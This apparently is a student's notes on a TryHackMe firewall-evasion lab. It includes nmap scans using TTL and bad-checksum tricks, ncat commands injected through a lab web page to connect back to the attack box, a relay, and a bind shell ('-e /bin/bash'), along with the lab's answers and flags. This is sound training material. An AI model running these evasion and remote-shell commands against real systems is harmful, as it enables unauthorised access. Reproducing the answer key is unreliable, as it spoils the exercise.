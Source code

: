 ```yaml
---
tags:
  - THM
  - Firewall
---
```

# Firewalls

```bash
ip a s tun0

export IP="10.10.234.211"

ping -c4 $IP
```

## Task 5

```bash
udo nmap -sS -Pn --ttl 81 -F $IP
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-24 21:22 CEST
Nmap scan report for 10.10.234.211
Host is up (0.039s latency).
Not shown: 97 filtered tcp ports (no-response)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3389/tcp open  ms-wbt-server

Nmap done: 1 IP address (1 host up) scanned in 1.98 seconds
```

Answer 2:
>3

```bash
sudo nmap -sS -Pn --badsum -F $IP                                                                                                                       
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-24 21:24 CEST
Nmap scan report for 10.10.234.211
Host is up.
All 100 scanned ports on 10.10.234.211 are in ignored states.
Not shown: 100 filtered tcp ports (no-response)

Nmap done: 1 IP address (1 host up) scanned in 21.33 seconds
```

Answer 3:
> 0

## Task 6

```bash
export IP="10.10.22.198"

ping -c4 $IP

sudo ncat -lvnp 21
```

```bash
# new terminal on atteck box
ip a s tun0

export IP="10.10.22.198"

firefox http://${IP}:8080

```

copy into the input field on the website `ncat ATTACKBOX_IP 21`

## Task 7 

```bash
firefox http://${IP}:8080
```

`ncat -lnvp 8008 -c "ncat 10.10.22.198 80"`

```bash
firefox http://${IP}:8008
```

Answer 1:
>THM{1298331956}

## Task 8

```bash
export IP="10.10.22.198"

firefox http://${IP}:8080 &
```

`ncat -lvnp 8081 -e /bin/bash`

```bash
ncat -vv $IP 8081

whoami
libnsock nsock_trace_handler_callback(): Callback: READ SUCCESS for EID 58 [peer unspecified] (7 bytes): whoami.
libnsock nsock_write(): Write request for 7 bytes to IOD #1 EID 67 [10.10.22.198:8081]
libnsock nsock_trace_handler_callback(): Callback: WRITE SUCCESS for EID 67 [10.10.22.198:8081]
libnsock nsock_readbytes(): Read request for 0 bytes from IOD #2 [peer unspecified] EID 74
libnsock nsock_trace_handler_callback(): Callback: READ SUCCESS for EID 18 [10.10.22.198:8081] (11 bytes): thmredteam.
thmredteam
```

Answer 1:
> thmredteam